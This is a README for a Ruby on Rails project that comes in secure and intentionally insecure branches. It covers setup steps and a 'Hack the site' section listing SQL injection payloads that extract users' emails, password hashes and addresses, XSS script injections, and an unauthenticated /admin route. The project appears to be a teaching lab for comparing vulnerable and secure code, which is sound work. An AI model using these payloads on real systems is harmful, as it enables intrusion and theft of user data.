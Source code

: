 # Project Title

This is my Ruby On Rails Project This is the insecure code 

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Downloads

The things you need before installing the software.

#### For Windows 
* Ruby Installer: https://rubyinstaller.org/ (The version i was using is 3.1.2)
* SQLite: https://www.sqlite.org/index.html (The version i was using is3.39.4)
#### For Mac and others)
please follow this guide: https://www.ruby-lang.org/en/downloads/

### Installation
When ruby is installed run these commands to run the application

Open up command terminal (cmd)
check the version of ruby and ruby gem by 

```
$gem -v
```
```
$ruby -v
```

Next install rails by using 

```
$gem install rails
```
When this is complete check the version of rails (im using rails 7.0.4.3)
gem install rails

```
$rails -v 
```
## Usage

To run the application simply download the github secure project and insecure project. 
Once downloaded redirect to the directory the project is saved in 
make sure you are in the application directory, Once in the directory run bundle install to install all the gems needed

```
$ bundle install
```

There will be some pending migrations that will need to be migrated before running 
```
$ rails db:migrate
```
Once installed you can choose to run it on a localhost or through an ip
### Run localhost 

To run it on a localhost just type in the terminal 
```
$ rails server
```
This will start the Rails server, and you can access your application by opening a web browser and going to http://localhost:3000

### Run through local ipv4
Find your Ipv4 address
```
$ ip config
```
This will run it on port 3000 

```
$ rails s -b 0.0.0.0
```
In order to connect to the site use your ipv4 address and the port
Ip will look like 192.111.1.111:3000 This is a sample and fake ipv4 address and will be different for you 
You can access your application by opening a web browser and typing your ip along with the port

### Branches

* Secure
* Insecure

## Additional Documentation and Acknowledgments
if there are any issues with installations please follow the ruby on rails guide documentation
* https://www.ruby-lang.org/en/downloads/
* https://guides.rubyonrails.org/getting_started.html

# Hack the site 

## Info About Insecure and Secure App
Here I intentionally made the button look out dated to show a security flaws. This is the insecure site so it will look differnt than to the secure site where the layout and looks are being validated and are using proper buttons such as primary and secondary buttons. naming conventions have stayed the same to be able to compare between the code only difference is the body is called content on the insecure app while its called context on the secure one There are no authentication between sites like going to /admin on the url.

## SQL Inject the Search button using the commands!
This will display the email and password:
```
Cake') union select 1, email, encrypted_password, null, null, true from users --
```

This will display the email and address:
```
Cake') union select 1, email, address, null, null, true from users --
```
This will display the email, password and users that are Admin:
```
Cake') union select 1, email, encrypted_password, null, null, true from users where admin = true --
```
This will display private posts:
```
Cake' or 1=1)
```
## XSS the subscribe button in the Home page using the command!
This will inject an alert script:
```
<script>alert('XSS Attack')</script>
```
This will run a script to change the css properties (background color to red):
```
<script>function changeBackground(color) { document.body.style.background = color; } window.addEventListener("load",function() { changeBackground('red') });</script>
```
## Broken Access Control
Access the admin page by typing this at the end of the url
```
/admin
```
### sample Url
This is wht the url will look like when you type the /admin at the end of the url
```
192.111.1.111:3000/admin
```
```
http://localhost:3000/admin
```
